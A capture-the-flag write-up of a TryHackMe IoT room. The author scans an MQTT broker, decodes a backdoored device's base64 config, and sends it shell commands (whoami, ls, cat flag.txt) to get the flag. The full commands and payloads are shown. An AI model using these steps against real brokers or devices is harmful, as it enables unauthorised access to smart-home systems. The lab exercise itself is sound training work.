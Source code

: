 ```yaml
---
title: Bugged
date: 2025-10-04 12:04:00 +0200
categories: [TryHackMe, Challenges]
tags: [iot, mqtt]
description: John was working on his smart home appliances when he noticed weird traffic going across the network. Can you help him figure out what these weird network communications are?
image: /assets/img/THM/Bugged.jpg
---
```


>**Platform:** [TryHackMe](https://tryhackme.com/room/bugged) - 4 Oct 2025

>**Rating:** Easy

## Abstract
This writeup covers the TryHackMe "Bugged" challenge, which focuses on analyzing MQTT communications in a simulated smart home environment. By enumerating open ports and decoding MQTT traffic, we uncover a backdoored IoT device and demonstrate how to interact with it to retrieve the flag.

## Enumeration
I start off by scanning the IP, achecking for open ports.
```sh
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV -A 10.10.142.79
PORT     STATE SERVICE
22/tcp   open  ssh
...
1883/tcp open  mosquitto version 2.0.14 syn-ack
| mqtt-subscribe:
|   Topics and their most recent payloads:
|     $SYS/broker/bytes/sent: 1073
|     $SYS/broker/publish/bytes/received: 9286
...
|     storage/thermostat: {"id":3558129027290157839,"temperature":23.430103}
...
```
{: .nolineno}
The scan reveals an open port (1883) used for the MQTT protocol. It even shows some of the IoT devices connected to the *'Broker'* and the available *topics* which they post to, along with the most recent payload for those topics.

Since the service running is **mosquitto**, as revealed by the scan, I will install and use that for interacting with the traffic.

The following command lets us *subscribe* to traffic relayed by the broker.
```sh
┌──(kali㉿kali)-[~]
└─$ mosquitto_sub -h 10.10.142.79 -t "#" -v
patio/lights {"id":17067615417940530788,"color":"ORANGE","status":"ON"}
frontdeck/camera {"id":3081743840256966965,"yaxis":-159.03606,"xaxis":11.9752655,"zoom":4.020044,"movement":true}
storage/thermostat {"id":10517548528827059288,"temperature":23.487356}
GqMpRSEobh/TvLQehMg0E/... ...VHZMUWVoTWcwRS9zdWIifQ==
```
{: .nolineno}
>*-t* specifies the topic we wish to subscribe to, where '#' serves as a wildcard, so we receive everything.
{: .prompt-info }

We see that some base64 encoded data is being transmitted. Decoding the data reveals a device ID and some information as to how it might operate. It also reveals the topics it subscribes and publishes to.
```sh
┌──(kali㉿kali)-[~]
└─$ echo eyJpZCI6ImNkZDFiMWMwLTFjNDAtNGIwZi04ZTIyLTYxYjM1NzU0OGI3ZCIsInJlZ2lzdGVyZWRfY29tbWFuZHMiOlsiSEVMUCIsIkNNRCIsIlNZUyJdLCJwdWJfdG9waWMiOiJVNHZ5cU5sUXRmLzB2b3ptYVp5TFQvMTVIOVRGNkNIZy9wdWIiLCJzdWJfdG9waWMiOiJYRDJyZlI5QmV6L0dxTXBSU0VvYmgvVHZMUWVoTWcwRS9zdWIifQ== > tmp.txt

┌──(kali㉿kali)-[~]
└─$ base64 -d -i tmp.txt
{"id":"cdd1b1c0-1c40-4b0f-8e22-61b357548b7d","registered_commands":["HELP","CMD","SYS"],"pub_topic":"U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub","sub_topic":"XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub"}
```
{: .nolineno}
## Exploit
First I'll try to publish a message to the topic it subscribes to. Meanwhile I'll be subscribing to the topic it publishes to.
```sh
┌──(kali㉿kali)-[~]
└─$ mosquitto_pub -h 10.10.142.79 -m "whoami" -t XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub
```
{: .nolineno}
```sh
┌──(kali㉿kali)-[~]
└─$ mosquitto_sub -h 10.10.142.79 -t U4vyqNlQtf/0vozmaZyLT/15H9TF6CHg/pub
SW52YWxpZCBtZXNzYWdlIGZvcm1hdC4KRm9ybWF0OiBiYXNlNjQoeyJpZCI6ICI8YmFja2Rvb3IgaWQ+IiwgImNtZCI6ICI8Y29tbWFuZD4iLCAiYXJnIjogIjxhcmd1bWVudD4ifSk=

*base64 decoded becomes:*
Invalid message format.
Format: base64({"id": "<backdoor id>", "cmd": "<command>", "arg": "<argument>"})
```
{: .nolineno}
Using this toghether with the previous information, we now know that we can communicate with this backdoored device, and how to do so.
>Below I will skip the encoding/decoding and communication process, as it follows the steps already shown. Thus only showing the sent and received payloads. Alternatively use an online tool like CyberChef[^1] for encoding/decoding.
{: .prompt-info }
```json
{"id":"cdd1b1c0-1c40-4b0f-8e22-61b357548b7d","cmd": "CMD", "arg": "whoami"}
{"id":"cdd1b1c0-1c40-4b0f-8e22-61b357548b7d","response":"challenge\n"}

{"id":"cdd1b1c0-1c40-4b0f-8e22-61b357548b7d","cmd": "CMD", "arg": "ls"}
{"id":"cdd1b1c0-1c40-4b0f-8e22-61b357548b7d","response":"flag.txt\n"}

{"id":"cdd1b1c0-1c40-4b0f-8e22-61b357548b7d","cmd": "CMD", "arg": "cat flag.txt"}
{"id":"cdd1b1c0-1c40-4b0f-8e22-61b357548b7d","response":"flag{※\(^o^)/※}\n"}
```
{: .nolineno}
## References
[^1]: [CyberChef](https://gchq.github.io/CyberChef/)